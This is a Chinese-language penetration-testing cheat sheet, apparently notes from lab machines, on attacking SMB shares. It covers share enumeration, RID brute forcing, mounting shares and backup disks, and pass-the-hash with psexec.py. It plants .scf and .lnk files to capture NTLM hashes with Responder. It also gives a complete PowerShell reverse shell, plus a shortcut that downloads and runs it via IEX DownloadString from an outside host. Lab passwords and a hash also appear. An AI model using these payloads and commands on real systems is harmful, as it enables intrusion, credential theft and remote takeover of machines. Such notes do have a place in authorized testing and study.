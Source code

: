 MMicrosoft-DS（DirectSMB），一种现代的 SMB 协议实现

**可以上传的 smb 共享：扫描共享目录路径**
```bash
nmap --script=smb-enum-shares.nse -p445 <IP>
```

**检查 SMB 漏洞(Windows)**
```
nmap -T5 -sV --script 'smb-vuln*'
```

**smbclient**
```bash
smbclient //hathor.windcorp.htb/share -k -U BeatriceMill@windcorp.htb -N
```

**samba 服务枚举详细**
```bash
enum4linux 
```

**wget 批量下载**
```bash
wget -m ftp://anonymous:xxx@[IP/Domain]
```

**共享目录枚举**
```bash
smbclient -L
smbmap -H 
crackmapexec smb IP -u '' -p '' --shares   (-u '' 有时候不准 可以随便输入一个username)
crackmapexec smb hathor.windcorp.htb -d windcorp.htb -u BeatriceMill -p '!!!!ilovegood17' -k  --shares  (-d指定DOMAIN)
cme smb <IP> -u <Username> -p <Password>
```

**搭建本地 samba 共享服务** (文件传输)

- 靶机下载 kali 中的文件
```bash
sudo python /usr/share/doc/python3-impacket/examples/smbserver.py share .
```

- 靶机文件传输到 kali
```bash
/usr/share/doc/python3-impacket/examples/smbserver.py share . -user xekoner -pass xekoner [-smb2support]
net use \\10.10.14.18\share /u:xekoner xekoner 
copy xxx \\10.10.14.18\share
```

- Windows > Kali
```bash
/usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support  (kali)
net view \\10.10.14.39\share
copy FILE \\10.10.14.39\share
```

**Windows 本地挂载**
适用于：打域内网无法直接连接的情况，可以 mount 到本地
```bash
sudo mount -t cifs //10.129.136.29/Backups ./smbmount/
sudo mount -t cifs //BLACKFIELD.local/forensic ./SMBMOUNT -o username=audit2020
sudo mount -t cifs //htb.local/backup /mnt -o rw,guest,vers=1.0  (Anonymous 挂载)
sudo mount -t cifs //172.16.206.21/monitoring /mnt/monitoring -o username=mountuser,password='DRtajyCwcbWvH/9',domain=relia.com
```

**挂载 vhd 虚拟磁盘文件**

检查挂载磁盘

```bash
sudo guestfish --ro -a ./smbmount/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd 
```

然后输入 run ；再输入 list-filesystems 查看虚拟磁盘格式

把 vhd 文件挂载到/tmp/mnt 下
```bash
sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /tmp/mnt
```

**敏感目录**
Windows/System32/config 下的 **SAM** 和 **SYSTEM** ，可以提取用户凭据 hash ,详细破解看 [Winodws , Active Directory系列](../Winodws%20,%20Active%20Directory系列.md)

结束挂载 
```bash
guestunmount /tmp/mnt
```


**爆破 RID 枚举用户名**
```bash
crackmapexec smb rebound.htb -u QWE -p '' --rid-brute > RID_raw
netexec smb 10.10.11.16 -u guest -p '' --rid-brute
```


### 攻击向量
- **Responder 获取 NTLM Hash**
**是否有可以写入的文件夹 ?** 
有上传文件的功能，文件可以被上传到 smb 共享文件夹内，那就可能可以获取 user 的 hash
**原理 ：**
Windows 资源管理器 Shell 命令文件 ( `.scf` ) 让 Windows 在用户访问包含该文件的目录时打开 SMB 连接
`.scf` 是一个文本文件，可以包含远程图标路径; 

```1.scf
[Shell]
Command=2 

IconFile=\\10.10.14.29\icon
```
上传这个.scf 文件，然后 responder 监听, -i 指定网卡


!!!!!!!!!!!!!!!!! **如果有存在写入的共享文件（未获得 shell）**!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
https://github.com/Greenwolf/ntlm_theft
尝试使用所有可能的文件上传，尝试用 responder get ntlmv2 hash
```bashh
python ~/tools/ntlm_theft/ntlm_theft.py -g all -s LOCALIP -f xekoner
cd xekoner
smbclient //IP/Dir -U User
	prompt off
	mput *
sudo responder -I tun0
```


- **检查主机是否存在 smb 共享文件夹**
```cmd
hostname
net view \\MS01
```

- **上传.lnk 文件获得 NTLM Hash**
https://github.com/xct/hashgrab
```bash
python ~/tools/hashgrab/hashgrab.py 192.168.45.170 this
smb: \Documents\> put this.lnk
sudo responder -I tun0 -A
```

- **创建一个.lnk 文件，等待有人点击后得到反向 shell**
rev.ps1
```bash
$c = New-Object Net.Sockets.TCPClient('10.10.16.21',443);$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$ssb = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($ssb,0,$ssb.Length);$s.Flush()};$c.Close()
```

```powershell
PS C:\Common Applications> $WScriptShell = New-Object -ComObject WScript.Shell 
PS C:\Common Applications> $Shortcut = $WScriptShell.CreateShortcut("C:\Common Applications\Notepad.lnk") 
PS C:\Common Applications> $Shortcut.TargetPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 
PS C:\Common Applications> $Shortcut.Arguments = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.21/rev.ps1')" 
PS C:\Common Applications> $Shortcut.Save()
```

- **psexec.py**
![](photos/Pasted%20image%2020240205215420.png)

```bash
/usr/share/doc/python3-impacket/examples/psexec.py Administrador:U46olsZ3jp1ZN4i2Hv7R@10.129.108.107
/usr/share/doc/python3-impacket/examples/psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb' htb.local/henry.vinson@htb.local
```


- **smbclient.py**
```
python /usr/share/doc/python3-impacket/examples/smbclient.py -k scrm.local/ksimpson:ksimpson@dc1.scrm.local 
[-k 强制使用kerbrute验证,用于无法使用NTLM验证的时候]

shares 枚举共享目录
use xxx
ls
get xxx
```

### Issue
**CME: KDC_ERR_WRONG_REALM 问题**
指定 -d 
```bash
crackmapexec smb hathor.windcorp.htb -u BeatriceMill -p '!!!!ilovegood17' -k -d windcorp.htb --shares
```

**smbclient: NT_STATUS_INVALID_PARAMETER 问题**
修改 /etc/krb5.conf, kinit 验证后再次执行
```bash
smbclient -k -U BeatriceMill@windcorp.htb //hathor.windcorp.htb/share
```